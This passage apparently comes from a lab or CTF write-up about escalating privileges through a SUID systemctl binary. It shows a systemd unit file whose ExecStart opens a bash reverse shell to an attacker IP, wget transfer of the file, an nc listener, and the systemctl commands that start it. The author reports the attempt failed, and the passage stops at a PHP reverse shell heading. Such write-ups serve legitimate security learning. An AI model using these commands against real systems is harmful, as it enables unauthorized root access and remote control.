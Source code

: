 ```text
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
```

The executable `/bin/systemctl` is not supposed to have and `SUID` permission.
There may be a way to exploit `systemd` to gain remote access.


#### Bash reverse shell {#bash-reverse-shell}

The first attempt was a reverse shell in bash.

```dot
[Unit]
Description=reverse shell

[Service]
Type=one-shot
ExecStart=/bin/bash -i >& /dev/tcp/10.2.105.89/8081 0>&1
#Restart=on-failure

[Install]
WantedBy=default.target
```

It was placed into a directory `~/http` then a lightweight web server was started.

```bash
cd ~/http
python3 -m http.server 8000
```

This made the systemd service files accessible from the target machine.
`wget` was then used to pull the files onto the target machine.

```bash
cd /tmp
wget $localip:8000/reverse.service
```

A listener was then setup on the attacking machine.

```bash
nc -lvnp 8081
```

Then the service was started on the target machine.

```bash
systemctl enable /tmp/reverse.service
systemctl start reverse.service
```

This attack did not connecting to the listener.
Might be a version of bash that has this patched.


#### PHP Reverse Shell {#php-reverse-shell}
